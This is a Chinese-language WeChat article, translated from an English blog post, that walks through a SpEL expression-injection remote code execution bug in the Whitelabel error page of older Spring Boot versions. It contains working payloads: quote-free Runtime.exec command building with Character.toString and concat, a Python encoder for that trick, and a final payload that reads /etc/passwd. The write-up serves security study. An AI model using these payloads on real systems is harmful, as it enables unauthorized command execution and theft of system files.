 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/390N710W8DPyyaCUU5-Ohw)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

亲爱的,关注我吧

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

**10/22**

文章共计1487个词

预计阅读10分钟

来和我一起阅读吧

**该漏洞仅影响 Spring Boot 1.2.8之前版本，Spring Boot 1.2.8版本之后已得到修补。**

在spring中任何反映用户输入的Whitelabel错误页面都将会容易受到攻击。这是因为用户的输入被视做为Springs Expression Language（**SpEL**）。在一次测试中，我遇到了一个特殊的URL，该URL触发了spring中的Whitelabel Error页面表达式注入。

```
https://<domain>/BankDetailForm?id=abc${12*12}abc
```

  

执行结果：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lczz9ALLhwoTxbeOfL1OZYXvaicfG8icdafC77G2qXLDc84DiahgFEZIqpozXk4RnAKaAxLRe1x4M6GQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

spring中的Whitelabel页面将输入的`abc${12*12}abc`显示为`abc144abc`。随后尝试执行一个**id**命令并显示结果。尝试了以下测试：

```
`https://<domain>/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec('id')}``payload：${T(java.lang.Runtime).getRuntime().exec('id')}`
```

执行结果：  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

输入的表达式原样输出，对比David的文章(https://secalert.net/#cve-2016-4977)，一切都显示正确，但是我仍然没有得到想要的输出。尝试了良久之后，我决定本地搭建一个Springs应用程序尝试创建相同的场景。我尝试了基本操作，`{5*5}`并在错误页回显出`25`的结果。然后尝试执行**id**命令，依旧没有执行。通过调试跟踪代码的堆栈信息如下：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以清楚的看到包含id命令的单引号被URL编码。得出原因之后，大致的解决方式有两种：

1、通过在错误的代码中查找字符，然后使用substring()将字符串一个个截取来传递给exec()方法。

2、通过找到一种无需使用双引号或单引号就可以传递要执行的字符串的方法。

这里我们采用第二种方法。如果我能够找到可以输入`id`参数的方法，那么`cat /etc/passwd`也将会迎刃而解。在Java中支持嵌套函数的使用。

经过对一些Java类调试之后发现了以下内容：

```
`java.lang.Character.toString(105)` `-> prints the characer 'i'`
```

  
i字符我们已经得到，那么接下来我们通过同样的方法合并字符“ d”即可，我们使用concat()方法来进行嵌套d字符，并与i字符合并。  

```
`java.lang.Character.toString(105).concat(T(java.lang.Character).toString(100))``-> prints the characters 'id'`
```

  
最终得到的有效载荷如下：

```
`https://<domain>/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec(T(java.``lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}`
```

  
执行结果如下所示：

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

通过**getRuntime()**方法执行我们传入的参数，现在，我们已经有了一个回显型的RCE，可以使用它来执行命令。接下来尝试执行`cat /etc/passwd`并将结果打印到Whitelabel Error页面上。这意味着对于每个字符都需要通过ASCII编码来进行传递。每个字符的传入格式如下：

```
concat(T(java.lang.Character).toString(<ascii value>))
```

  
由于字符过多，我们通过python脚本来实现此功能：

```
`#!/usr/bin/env python``from __future__ import print_function``import sys``message = raw_input('Enter message to encode:')``print('Decoded string (in ASCII):\n')``for ch in message:` `print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""),` `print('\n')`
```

  
要获取`cat /etc/passwd`命令的结果，我们通过使用**IOUtils**类调用**toString()**方法将输入流传递给此方法，并获取相应结果。

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

最终payload如下：

```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

  
  
综上所述，通过Apache IOUtils库，并将`cat /etc/passwd`使用字符类转换为ASCII字符，将转换后的字符传递给**exec()**方法执行。并获得输入流，将其传递给`toString()`IOUtils类的方法解析。

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
翻译来源：http://deadpool.sh/2017/RCE-Springs/
```

### 相关实验（点击阅读原文做实验）  

*   Springboot未授权访问
    
*   https://www.hetianlab.com/expc.do?ec=ECID07d9-3ccd-4c90-8a09-b980d8cd7858&pk\_campaign=weixin-wemedia
    
*   Actuator 是 springboot 提供的用来对应用系统进行自省和监控的功能模块，非法用户可通过访问默认的执行器端点（endpoints）来获取应用系统中的监控信息从而导致信息泄露的事件发生
    
      
    

**10/22**

  

欢迎投稿至邮箱：**EDU@antvsion.com**  

有才能的你快来投稿吧！

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

戳“阅读原文”我们一起进步